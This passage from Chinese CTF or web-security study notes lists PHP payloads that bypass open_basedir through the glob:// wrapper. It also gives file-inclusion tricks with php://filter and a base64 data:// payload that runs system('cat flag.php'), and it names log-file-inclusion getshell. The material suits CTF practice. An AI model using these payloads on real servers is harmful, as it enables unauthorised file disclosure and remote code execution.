   >   - scandir()+glob://
  >
  >  ```php
  >   #以下三种payload，都可以将扫描结果输出，绝对路径|相对路径都可以
  >   var_dump(scandir("glob:///*"));
  >    print_r(scandir("glob://./*"));
  >    echo json_encode(scandir("glob://../*"));
  >    #  以下是学长的碎碎念
  >    # （关键在于 scandir() + glob伪协议
  >    # （不过实际上也可以用别的方法来弄，这个涉及到CTF。。一般来说不会这么绝
  >    # （比如 opendir 吧
  >  ```
  >
  >   - DirectoryIterator+glob://
  >     DirectoryIterator是php5中增加的一个类，为用户提供一个简单的查看目录的接口，利用此方法可以绕过open_basedir限制。(但是似乎只能用于Linux下)
  >
  >  ```php
  >   <?php 
  >     $a=new directoryiterator("glob:///*"); 
  >    foreach($a as $f) {
  >       echo($f->__tostring().' '); 
  >     } 
  >   ?>
  >     	# glob:///*	会列出根目录下的文件
  >   	# glob://*	会列出open_basedir允许目录下的文件
  >  ```
  >
  >   - opendir()+readdir()+glob://
  >
  >   ```
  >   <?php
  >  if ( $b = opendir('glob:///*') ) {
  >       while ( ($file = readdir($b)) !== false ) {
  >          echo $file."<br>";
  >       }
  >       closedir($b);
  >   ?>
  >   ```
  
  



## 文件包含

- 伪协议的运用

  - 过滤器filter://：`?file=php://filter/convert.base64-encode/resource=flag.php`
  - data://：
    某些字符串被过滤，可以使用data编码后传入
    如：php被替换为???，那么
    `?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs`

- 日志文件包含getshell
